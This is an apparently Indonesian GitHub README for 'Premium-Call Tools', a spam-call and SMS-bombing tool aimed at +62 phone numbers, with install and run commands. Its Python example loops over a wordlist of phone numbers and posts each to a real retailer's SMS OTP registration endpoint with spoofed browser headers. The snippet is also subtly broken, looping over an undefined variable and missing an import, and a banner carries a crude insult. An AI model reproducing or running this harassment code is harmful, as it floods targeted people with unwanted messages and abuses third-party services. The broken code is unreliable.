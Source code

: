 # Premium-Call Tools
<p align="center">
<img src="https://img.shields.io/static/v1?label=Author&color=green&message=Dusttale &logo=Acclaim&logoColor=white&style=for-the-badge"><br>
Tools Spam Call Unlimiter (+62)
https://t.me/SariiRooti
</p>
<p align="center">
  <a href="https://github.com/AmmarrBN"><img src="http://readme-typing-svg.herokuapp.com?color=FFFFFF&center=true&vCenter=true&multiline=false&lines=Minimal+Kasi+Star+lah+kontol+!" alt="UwU">
</p>

## How To Create Non Stop With Python
<details open>
  <summary><strong> Non Stop/Reapeat </strong></summary>

  ```bash
  Example:
  import time

  repeat=input("Your Input: ")
  while True:
        print (repeat)
        time.sleep(0.5)
  ```
  </details>

## How To Create Massive?
<details open>
  <summary><strong> Multi Target </strong></summary>

  ```bash
  Example:
  import os,sys,time #default module python
  import requests

  def massive():
  	try:
  		wordlist=open('wordlist.txt','r').readlines()
  		for line in gas:
  			strip=line.strip()
  			post=requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":strip})).text
  			print (post)
  			time.sleep(10) # You are free to set the time to a few seconds
  	except KeyboardInterrupt:
  		sys.exit("Stop Tools.")
  
  massive()
  ```
  </details>

# Info
<p align="center">
  <a href="https://github.com/AmmarrBN"><img src="http://readme-typing-svg.herokuapp.com?color=FFFFFF&center=true&vCenter=true&multiline=false&lines=Sewaktu+waktu+tools+ini+akan" alt="UwU">
  <a href="https://github.com/AmmarrBN"><img src="http://readme-typing-svg.herokuapp.com?color=FFFFFF&center=true&vCenter=true&multiline=false&lines=expired+jadi+gunakan+dengan+bijak+!" alt="UwU">
</p>

<details open>
  <summary><strong> Install Package + Run Script (AmmarrBN)</strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install python
  pkg install git
  pkg install python2
  git clone https://github.com/AmmarrBN/Premium-Call
  cd Premium-Call
  pip install -r requirements.txt
  python call.py
  ```
  </details>
